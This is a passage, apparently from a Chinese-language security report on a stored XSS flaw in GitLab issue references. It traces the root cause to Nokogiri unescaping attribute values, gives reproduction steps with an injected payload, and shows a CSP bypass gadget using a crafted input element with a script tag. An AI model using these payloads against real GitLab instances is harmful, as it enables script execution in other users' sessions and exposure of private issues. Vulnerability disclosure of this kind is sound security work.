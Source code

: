    ```
   # app/assets/javascripts/behaviors/markdown/editor_extensions.js.
   # The GFM-to-HTML-to-GFM cycle is tested in spec/features/copy_as_gfm_spec.rb.
   ```
   因此直接对 markdown 渲染后的元素进行拷贝作为基准 payload，下面拷贝了引用 issue 的 markdown`#1`所渲染的 html:
   ```
   <a href="http://127.0.0.1:3000/xss/xxss/-/issues/1" data-original="#1" data-link="false" data-link-reference="false" data-project="20" data-issue="436" data-reference-type="issue" data-container="body" data-placement="top" data-html="true" title="xss">#1&lt;img src=x&gt;</a>
   ```
   payload 中`#1&lt;img src=x&gt;`是主要部分。该部分原本是 escape 后的字符串，但是在后端处理时将其赋值给了属性值，而 Nokogiri 库自动对属性值进行 unescape。
6. ruby 库 Nokogiri 解析 html 字符串时，会把属性中 html encoded 字符进行 unencoded，最终造成注入问题。
   _lib/banzai/filter/reference_filter.rb:132_ 该函数将 html 字符串替换到 node 对象中，其中 html 字符串包含 escape 的属性值。
   ```
   def replace_link_node_with_href(node, link)
       html = yield
       binding.pry
       node.replace(html) unless html == link
   end
   ```
   node.replace 是 nokogiri 库调用，该函数对 html 字符串进行解析，构建 html node 对象:
   _/home/kali/.rvm/gems/ruby-2.6.5/gems/nokogiri-1.10.8/lib/nokogiri/xml/node.rb:477_
   ```
   node_set = in_context(contents, options.to_i)
   ```
   其中解析字符串的函数由 nokogiri 的[c 函数](https://github.com/sparklemotion/nokogiri/blob/9aebcc669a7028e4faad1fc8b53cf46a2f2320ba/ext/nokogiri/xml_node.c#L2152)实现。该函数负责解析属性和值，并且将属性值的 html 编码进行 unescape。

### Step to reproduce

1. 首先新建一个非公开的 issue，然后再新建一个公开 issue
2. 在公开的 issue 中引用非公开的 issue 进行评论，并且注入 payload

```
其中2是私密issue，该payload需要发送在issue1中
<a href="http://127.0.0.1:3000/xss/xxss/-/issues/2" data-original="#2" data-link="false" data-link-reference="false" data-project="20" data-issue="437" data-reference-type="issue" data-container="body" data-placement="top" data-html="true" title="hacked">#2&lt;img src=x onerror=alert(1)&gt;</a>
```

3. 用其他账户登录，查看公开 issue，即可完成攻击
4. 现在能够注入任意 html 和 xss payload，但是如果有 csp，那么需要绕过，绕过方法可以考虑 jquery：构造一个需要全局初始化的 html 片段，然后由前端进行注入。

### csp bypass

1. 当然这些绕过是平时找到的 gadget，需要每天日积月累的审计源代码才能找到。也就是说每天都要 debug，每天都要静态分析，每天都要动态分析才行。这需要理解软件的逻辑，什么是软件的逻辑，包括路由，渲染，功能之类的，这绝对不是做个漏洞复现，切片就足够的。
2. 首先选定用 jquery 注入 script 标签的方式，通过 `\$\([`'"][\s\S]{0,100}?<[\s\S]{3,200}?>[\s\S]{0,100}?[`'"]\)` 来定位到。
   _app/assets/javascripts/gl_field_error.js_
   ```
   this.fieldErrorElement = $(`<p class='${errorMessageClass} hidden'>${this.errorMessage}</p>`);
   ```
3. 逆向分析得知，该函数由 main.js 调用，也就是所谓的全局初始化代码
   _app/assets/javascripts/gl_field_errors.js_
   _app/assets/javascripts/main.js:337_
   ```
   $('.gl-show-field-errors ').each((i, form) => new GlFieldErrors(form));
   ```
4. 该段代码显示，只要注入 class 为 gl-show-field-errors 的片段，就能够被执行，那么构造 payload 如下：
   ```
   <input class="gl-show-field-errors gl-field-error-ignore" type=url title="<script>alert(11)</script>"/>
   html encode:
   &lt;input class=&quot;gl-show-field-errors gl-field-error-ignore&quot; type=url title=&quot;&lt;script&gt;alert(11)&lt;/script&gt;&quot;/&gt;
   ```